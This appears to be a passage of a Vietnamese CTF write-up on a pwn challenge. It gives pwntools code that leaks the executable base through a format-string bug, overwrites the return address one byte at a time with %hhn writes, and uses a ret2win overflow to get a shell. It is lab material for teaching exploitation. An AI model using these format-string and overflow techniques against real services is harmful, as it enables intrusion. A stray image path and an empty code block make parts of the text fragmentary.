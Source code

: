 ```lý do tại sao dùng plt mà ko phải got cho system:```
```

**cuối cùng ta ow rip thành địa chỉ hàm exit_f tương tư như trên là xong:**


```python=

################################
### Stage 5: ow ret = exit_f ###
#################################

exit_f = exe.sym['exit_f'] + 5

for i in range(0,6):
    payload = f"%{exit_f & 0xff}c%8$hhn".encode().ljust(16, b"\0")
    payload += p64(ret) 
    p.sendlineafter(b'phai lam gi day?????\n', payload )
    exit_f = exit_f >> 8
    ret += 1
    log.info("exit_f: " + hex(exit_f))


p.sendlineafter(b'phai lam gi day?????\n', b"a"*15 ) # à tại đây nhập quá 12byte để out vòng lặp qua return nha
```

lấy được shell rồi nè :

![image](https://github.com/gookoosss/CTF.-/assets/128712571/e0e2190c-c2f0-4aa4-af63-36663e7aa565)


**script:**

```python 

from pwn import *

p = process('./chall_patched')
exe = ELF('./chall_patched')
libc = ELF('./libc6_2.35-0ubuntu3.1_amd64.so')

gdb.attach(p, gdbscript = '''
b*main+76
b*main+140
b*fmt+61
c
''')

input()

##################################
### Stage 1: leak exe  address ###
##################################

p.sendafter(b'ret2win or fmt\n', b'%13$p') 
exe_leak = int(p.recvline()[:-6], 16)
exe.address = exe_leak - 0x1160
log.info("exe leak: " + hex(exe_leak))
log.info("exe base: " + hex(exe.address))

##################################
### Stage 2: ret2win fmt       ###
##################################

payload = b'a'*72
payload += p64(exe.sym['fmt'] + 5)
p.send(payload)
```